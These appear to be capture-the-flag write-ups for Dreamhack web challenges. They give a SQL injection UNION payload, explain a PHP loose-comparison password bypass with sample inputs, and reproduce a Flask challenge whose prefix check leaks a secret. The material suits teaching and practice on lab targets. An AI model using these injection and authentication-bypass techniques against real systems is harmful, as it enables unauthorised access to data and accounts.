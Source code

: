 `final payload`

```sql
1' UNION SELECT 1,concat(svalue, sflag, sclose),1,1 FROM onlyflag-- -
```

## Type c-j

[Challenge](https://dreamhack.io/wargame/challenges/960)
[Source](https://sfo2.digitaloceanspaces.com/wargame1/public/c494d907-fab7-4a47-b147-d2d9c0efbeda.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=OIK4A6AORYFTHBTQUV55%2F20241231%2Fsfo2%2Fs3%2Faws4_request&X-Amz-Date=20241231T043426Z&X-Amz-Expires=86400&X-Amz-SignedHeaders=host&X-Amz-Signature=17359942434fb81235c8d884d42eb153f15140d41a8b0eb5d95a4583227ca13d)

In this challenge, we just need to understand the conversion between strings and the int type to exploit it. Specifically, when a string is converted to an int, it becomes the leading number in the string, or 0 if the first character is a letter.

```php
sha('1') = 356a192b7913b04c54574d18c28d46e6395428ab = $pw
=> (int)$input_pw == 356

=> input_id = aaaaaaaaaa & input_pw = 356aaaaa
```

## random-test

[Challenge](https://dreamhack.io/wargame/challenges/931)
[Source](https://sfo2.digitaloceanspaces.com/wargame1/public/8f995437-9c57-4f43-94ae-d7095e31d369.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=OIK4A6AORYFTHBTQUV55%2F20241230%2Fsfo2%2Fs3%2Faws4_request&X-Amz-Date=20241230T235932Z&X-Amz-Expires=86400&X-Amz-SignedHeaders=host&X-Amz-Signature=316297b98fb3ed37715bd13345bedf89a78726b8b153ace1b5eed30571783c91)

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
import string
import random

app = Flask(__name__)

try:
    FLAG = open("./flag.txt", "r").read()       # flag is here!
except:
    FLAG = "[**FLAG**]"


rand_str = ""
alphanumeric = string.ascii_lowercase + string.digits
for i in range(4):
    rand_str += str(random.choice(alphanumeric))

rand_num = random.randint(100, 200)


@app.route("/", methods = ["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html")
    else:
        locker_num = request.form.get("locker_num", "")
        password = request.form.get("password", "")

        if locker_num != "" and rand_str[0:len(locker_num)] == locker_num:
            if locker_num == rand_str and password == str(rand_num):
                return render_template("index.html", result = "FLAG:" + FLAG)
```

[^0-8\"]: Matches any character that is not a digit from 0 to 8 or the double-quote character ".